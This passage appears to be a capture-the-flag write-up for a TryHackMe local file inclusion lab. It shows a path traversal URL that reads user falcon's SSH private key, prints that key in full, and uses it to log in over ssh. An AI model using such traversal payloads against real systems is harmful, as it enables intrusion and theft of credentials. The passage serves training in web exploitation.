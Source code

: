 This file can give information about the system like the name of all the existing users on the system.

`No answer needed`

4. What is the name of the user on the system?

`falcon`

5. Once you find the name of the user it's important to see if you can include anything **common** and **important** in that user's directory, could be anything like theirs **.bashrc** etc

`No answer needed`

6. Name of the file which can give you access to falcon's account on the system?

[10.10.109.9/home?page=../../home/falcon/.ssh/id_rsa](10.10.109.9/home?page=../../home/falcon/.ssh/id_rsa)

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAy5ab5+v0aBYFL7dN4O69CqvZdjpSk4/BFMOEndp71fy4qlBi
ewnTYIyKS1DjNhLdbLJZV/8oKOIx/BVSxrw3hnjL/b5d3jUpX1edcX8hjTt10LCT
ubgjWekIpspImHtp/vf9n0IlL1GIWLsxKZXEqyoSvvG4LU6ajrMyHM9jyZ7yMAsS
lHtfNzX22taxJliHF3SFDjf6Z0otY98T273qy6uTchBDEIZx7uJGQF4h9bvSq+22
e7QFY/h/cLrVUPGcRgv2VH4958A5n+BA48ioVyjGRcJlPsa8fNuFkgA8VlJqx/zD
Erf3G97zCY5iZSSm6g+9aUBAoqJqQqnZ1JY/jQIDAQABAoIBAQCjN3qEY7GM5OKB
j6Z7B0s9S+rKkxVywdQczmb6mpefRb3SpSFe3NC+3c1ddlrCFju4kf94wdIzfKxw
GbREKc8mGqAILN9abypdCoPp4u9GJ/5bMcUtJogI4/+QoCm1PXQL+ks1q7TeC7KQ
2HogibajNtbSiD2M7TCR6O3rFQU+NKW3P8R5rTJBFxSqXcoL0aZoOdIISuGo4e2D
w5p8eLHiYmKmQ3KYW58fau1Qnr8t0YoHDlG2wezNBQSckt5xxjY4XWlfcMPAQIP9
VWxv77zIqfLFYj6oH0opPHX7SbdpFVj00h7Ee2C0QR7CKj4lxmE2Dn97LEXksfWM
PqmJwiRBAoGBAPRGPZtAT7TfTac7lXbOYNj/5HuK1Pc7+GtsT8V3AJwbhkeZG/B+
ERee3gKlXhglEup0duxBwy5zTy6vsegMo7sk2ii/GlboR44Yy7OYbjrmIw7JRx6i
IIjN6YeKM+dwLGL7+xG2EavrRBJbuYfp1R139gK5CWd6Yu6xdwtCPS8xAoGBANVc
ZhSQOWzkN0Yq4CsAnKrrtIeynX7wTppy2F3N8/CQHQIYjFx0SZxs/1MlTXEpFdC+
VHhQ+Cy5O+hndqXiG5sty9wC67lZNaxuBkMoxKgX42JAgxxE41lUadAdRHJ4cq7A
1DiJ1xq3XwP1ZaUEVE/Y3EusMhtr/A6z1dGJcpcdAoGAdb6d14XqZb71iVS5OOlF
2ZOPKNXEzd+EYRN2aDJygszprv1ocEX0KzSSwye+8Vh9g7Hb2Qnh8TP3yQM7eCUP
jxe2aMmlAps4UpA1MD6bc5yW7Xur4mI32HmYxZKibj6txpC7dtASOJJQ36CDD7Zw
2aGHXcyfcdeWdIPqY+zr3SECgYEAoi4SCh93ByaSPWvp6cYVUHbKSzuiLBNOLGiP
vv4GJx3kbutqBfz+10Ci8/iu3Q11365NVwd1HcnPl+DNd1pf0Z0GEL7Hn6QIAIHB
kNs0YPGHje+ruZlDl2tq4x7cIIcd5Wf96Nwd/djVCJVIJh8cV3VoPr0teVqjxik8
poHr8KECgYBGJ/FLmaloEl00YECXAy2uMlvGyaAr2tsq28JF3LvZOXNIhB71+11V
E/gv9PP0ruJJRBv5r2DjAcsWA+sIBf5O8+z5dTeuto5v+WTrpOy8i3FLEWl3hqRH
ANCTI4EhCynYtF8zi8so5zeomlncFZg7JD/dL0gHXu4FImx5sUO9gg==
-----END RSA PRIVATE KEY-----
```

7. What is the user flag?

```
li@kali:~/CTFs/tryhackme/LFI$ chmod 600 id_rsa
bibo318@parrot:~/CTFs/tryhackme/LFI$ ssh -i id_rsa falcon@10.10.109.9
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov  7 19:27:05 IST 2020

  System load:  0.0               Processes:           84
  Usage of /:   30.7% of 9.78GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 10.10.109.9
  Swap usage:   0%


6 packages can be updated.
```